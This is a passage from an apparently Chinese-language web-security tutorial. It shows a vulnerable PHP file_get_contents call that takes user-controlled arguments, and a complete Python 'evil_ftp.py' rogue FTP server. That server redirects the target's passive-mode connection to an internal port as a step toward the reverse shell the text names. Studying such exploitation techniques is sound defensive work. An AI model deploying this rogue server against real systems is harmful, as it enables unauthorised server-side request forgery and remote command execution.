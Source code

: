 那么对于无法写入一个文件的情况呢？

这个漏洞还可以简化成

```php
file_get_contents($_GET['file'],$_GET['data']);
```

还是老方法，我们需要搭一个恶意的ftp服务，利用本地去访问这个服务，然后反弹shell

```plain
# evil_ftp.py
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```
